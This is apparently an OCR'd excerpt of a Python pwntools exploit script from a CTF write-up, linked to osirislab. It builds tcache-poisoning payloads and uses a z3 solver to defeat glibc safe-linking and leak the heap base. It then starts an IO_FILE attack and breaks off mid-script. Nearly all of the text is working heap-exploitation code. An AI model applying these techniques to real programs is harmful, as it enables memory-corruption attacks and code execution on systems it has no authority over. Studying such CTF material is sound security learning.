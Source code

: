 ```python
    cmd(3)
    sla("?\n",str(idx).encode())
def tcache(idx,val,ct=1):
    t1 = [0]*0x80
    t1[idx*2] = ct
    p1= b''
    for x in range(0x80):
        p1+=p8(t1[x])
    p2 = [0]*0x40
    p2[idx] = val
    p2 = flat(p2)
    return p1+p2
def sol(leaked,off,orecal):
    # log.warning(hex(leaked))
    # log.warning(hex(off))
    # log.warning(hex(orecal))
    leaked = BitVecVal(leaked, 48)
    orecal = BitVecVal(orecal, 48)
    off  = BitVecVal(off,48)

    page_addr = BitVec('page_addr', 48)
    res = BitVec('res', 48)
    rnd = BitVec('rnd', 48)

    s = Solver()

    s.add(((page_addr^res)^rnd)==leaked)
    s.add(page_addr == (res>>12))
    s.add(((page_addr^res)>>12)+off==rnd)

    s.add((page_addr>>36) == 0)
    s.add((rnd>>36) == 0)

    s.add(orecal == (res<<36)>>36)

    if str(s.check()) == 'sat':
        m = s.model()
        # print(m)
        return  m.evaluate(res).as_long()
    else:
        print(s.check())
        exit(1)

# Leak heap base
add(0,0x18)
add(1,0x18)
free(0)
free(1)

add(2,0x28)
add(3,0x18,1)
show(3)

p.readuntil("Secret ")
heap    = int(p.readuntil("(")[:-1],16)
p.readuntil("off= ")
off     = int(p.readuntil(")")[:-1],16)
heap    = sol(heap,off,0x4b0) - 0x14b0
log.warning("HEAP BASE: "+hex(heap))

# IO_FILE LEAK 
# Attack IO_FILE on heap
add(0,0x18)
```

[1]: https://github.com/osirislab